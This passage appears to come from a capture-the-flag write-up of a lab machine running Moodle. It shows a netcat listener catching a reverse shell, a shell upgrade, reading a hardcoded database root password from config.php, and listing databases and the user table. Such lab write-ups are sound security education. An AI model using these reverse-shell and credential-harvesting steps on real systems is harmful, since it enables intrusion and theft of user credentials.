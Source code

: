 ![](/assets/images/htb-writeup-teacher/formula2.png)

This'll spawn a shell for us:

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.153] 49210
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python -c 'import pty;pty.spawn("/bin/bash")'
www-data@teacher:/var/www/html/moodle/question$
```

### Getting access to giovanni user

Like any web application with a database backend, the first thing I do once I get a shell is look for hardcoded database credentials in the PHP configuration file of the application. The Moodle configuration file contains the `root` account password for the MySQL database:

```
www-data@teacher:/var/www/html/moodle$ cat config.php
<?php  // Moodle configuration file
[...]
$CFG->dbtype    = 'mariadb';
$CFG->dblibrary = 'native';
$CFG->dbhost    = 'localhost';
$CFG->dbname    = 'moodle';
$CFG->dbuser    = 'root';
$CFG->dbpass    = 'Welkom1!';
```

List of databases:
```
MariaDB [(none)]> show databases;
show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| moodle             |
| mysql              |
| performance_schema |
| phpmyadmin         |
+--------------------+
```

The `mdl_user` table contains passwords:
```
MariaDB [moodle]> show tables;
show tables;
+----------------------------------+
| Tables_in_moodle                 |
+----------------------------------+
...
| mdl_user                         |
...
```
